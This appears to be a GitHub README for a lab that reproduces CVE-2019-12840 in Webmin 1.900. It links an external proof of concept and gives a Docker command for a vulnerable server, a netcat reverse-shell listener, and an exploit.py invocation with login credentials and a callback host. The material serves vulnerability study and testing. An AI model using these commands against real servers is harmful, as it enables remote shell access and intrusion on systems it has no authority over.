 # CVE-2019-12840

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-12840>


## PoC / Exploit
* <https://github.com/KrE80r/webmin_cve-2019-12840_poc>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900

## Reproduction 

* Server
    - Docker:
    ```shell script
    docker run --rm -p10000:10000 -it simaofsilva/cve-2019-12840
    ```
    
    - Script:
    ```shell script
    bash installation.sh
    ```    

* Client
    - Terminal 1 (reverse shell) :
    ```shell script
    nc -nlv 7777
    ```
    
    - Terminal 2:
    ```shell script
    python3 exploit.py -u SERVER_IP -U test -P qwerty -lhost LOCAL_IP -lport 7777
    ```
  